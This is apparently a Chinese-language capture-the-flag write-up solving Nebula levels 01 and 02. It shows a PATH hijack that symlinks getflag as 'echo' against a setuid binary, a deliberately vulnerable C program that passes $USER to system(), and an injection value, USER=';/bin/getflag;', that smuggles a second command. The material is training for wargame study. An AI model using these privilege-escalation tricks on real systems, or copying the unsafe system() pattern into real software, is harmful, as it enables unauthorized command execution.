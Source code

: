 程序逻辑很简单：SetUID和SetGID后执行环境变量指定的echo文件，这样`and now what?`就是参数。因此马上能得到如下思路：

- 看到`/usr/bin/env`就立即反应过来可以从环境变量下手，修改后优先执行自己的程序。
- 需要运行getflag，而程序只能运行echo，因此要把echo和getflag关联上。

于是乎一气呵成执行以下命令：

```bash
ln -s /bin/getflag echo
PATH=/home/level01:$PATH
cd /home/flag01
./flag01
```

这里软连接需要创建在`/home/level01`或`/tmp`中，否则没有w权限。至此，此题拿下。

# Nebula level02 #
> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
> 
> 和上一题一样的题干，还是找到可任意执行程序的漏洞。

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

还是环境变量，这次是$USER，反而简单了，直接截断原来的程序即可。上代码：

```bash
USER=";/bin/getflag;"
```
